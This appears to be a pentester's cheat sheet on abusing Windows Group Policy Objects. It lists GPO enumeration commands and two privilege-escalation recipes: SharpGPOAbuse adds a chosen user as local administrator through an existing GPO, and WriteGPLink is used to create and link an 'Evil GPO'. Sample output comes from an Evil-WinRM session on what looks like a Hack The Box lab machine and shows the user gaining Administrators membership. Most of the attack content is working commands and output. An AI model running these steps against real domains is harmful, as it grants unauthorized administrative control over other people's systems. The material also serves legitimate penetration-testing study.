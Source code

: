 ```yaml
---
title: "GPOs"
date: 2025-3-16
tags: ["GPOs", "Windows", "Group Policy Objects", "WriteGPLink"]
---
```


### General

#### 1. Install GPMC \[Optional\]

```console
# Runas Administrator
Install-WindowsFeature GPMC
```

```console {class="sample-code"}
PS C:\Windows\system32> Install-WindowsFeature GPMC
Install-WindowsFeature GPMC

Success Restart Needed Exit Code      Feature Result                           
------- -------------- ---------      --------------                           
True    No             Success        {Group Policy Management}                
```

#### 2. List GPOs Name

```console
# List all GPOs
Get-GPO -All | Select-Object DisplayName
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\HHogan\Documents> Get-GPO -All | Select-Object DisplayName

DisplayName
-----------
Windows Firewall GPO
Default Domain Policy
Default Active Directory Settings GPO
Default Domain Controllers Policy
Windows Update GPO
Windows Update Domain Policy
Software Installation GPO
Password Policy GPO
```

```console
# Check GPO by name
Get-GPO -Name '<GPO_NAME>'
```

```console
# Generate XML report
Get-GPOReport -Name '<GPO_NAME>' -ReportType XML
```

```console
# Generate pretty HTML report
Get-GPOReport -Name '<GPO_NAME>' -ReportType HTML -Path "C:\ProgramData\GPOReport.html"
```

---

### Abuse #1: Add Local Admin

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add Local Admin

```console
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount '<USER>' --GPOName '<GPO_NAME>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\HHogan\Documents> .\SharpGPOAbuse.exe --AddLocalADmin --UserAccount 'HHogan' --GPOName 'Default Domain Policy'
[+] Domain = office.htb
[+] Domain Controller = DC.office.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=office,DC=htb
[+] SID Value of HHogan = S-1-5-21-1199398058-4196589450-691661856-1108
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\office.htb\SysVol\office.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```

#### 2. Force Reload

```console
gpupdate /force
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\HHogan\Documents> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.

*Evil-WinRM* PS C:\Users\HHogan\Documents> net user HHogan
User name                    HHogan
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/6/2023 11:59:34 AM
Password expires             Never
Password changeable          5/7/2023 11:59:34 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/10/2023 5:30:58 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
Global Group memberships     *Domain Users         *GPO Managers
The command completed successfully.
```

<small>*Ref: [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)*</small>

{{< /tabcontent >}}

---

### Abuse #2: WriteGPLink

{{< tab set2 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Create a New GPO

```console
New-GPO -Name "Evil GPO"
```

#### 2. Link to Target

```console
Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=<TARGET>,DC=<DOMAIN>,DC=<COM>"
```

#### 3. Add Local Admin

```console
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount '<USER>' --GPOName 'Evil GPO'
```

#### 4. Force Reload

```console
gpupdate /force
```

#### 5. Check

```console
net user '<USER>'
```

{{< /tabcontent >}}